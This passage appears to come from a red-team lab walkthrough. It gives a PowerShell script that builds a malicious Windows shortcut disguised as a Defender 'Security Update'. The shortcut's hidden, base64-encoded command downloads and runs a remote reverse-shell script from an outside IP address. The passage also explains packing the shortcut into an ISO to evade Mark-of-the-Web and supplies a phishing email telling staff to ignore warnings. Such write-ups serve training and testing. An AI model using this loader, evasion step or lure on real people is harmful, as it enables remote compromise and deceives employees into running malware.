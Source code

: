 - The following is a quicker alternative to creating the lnk file. Run the powershell script to generate the malicious lnk

- You may have to customize some of the parameters such as where to dump the lnk file

```powershell
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\Users\saudi\Desktop\Q1 Security Update.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows Defender\MpCmdRun.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand  aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAAwAC4ANwAyADoAOQAwADAAMAAvAHIAZQB2AC4AcABzADEAJwApAA=="
$link.save()
```
### Packing the lnk 

- We can use packmyload to perform an MOTW bypass and create an iso file that contains the lnk

![image](/posts/2023-03-25_red_team01/images/covenant30.png)

### Pretexting
I used the following pretext

```markdown
Good Morning,

The Infrastructure Team has recently identified a critical security vulnerability in our system and are now rolling out a patch to fix it.

As part of this process, you will be required to download the following Security Update, double click and run the updater. Ignore any warnings

We apologize for any inconvenience caused but rest assured that these measures have been taken to protect you from potential threats. Thank you!
```
